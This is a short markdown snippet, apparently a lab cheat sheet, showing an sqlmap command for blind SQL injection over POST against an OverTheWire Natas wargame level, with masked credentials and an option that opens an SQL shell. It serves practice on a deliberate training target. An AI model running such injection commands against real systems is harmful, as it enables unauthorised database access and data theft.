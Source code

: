 ## sqlmap

Blind SQL injection example with POST

    $ python2 sqlmap.py -v3 \
             -u 'http://natasXX.natas.labs.overthewire.org/index.php' \
             --auth-type=basic --auth-cred="natasXX:XXXXXX" \
             --proxy="http://127.0.0.1:8080" \
             --data "username=" -p "username" \
             --level 4 --risk 3 --string "exists" \
             --technique B --prefix '" ' --suffix ' AND ""="' \
             --sql-shell
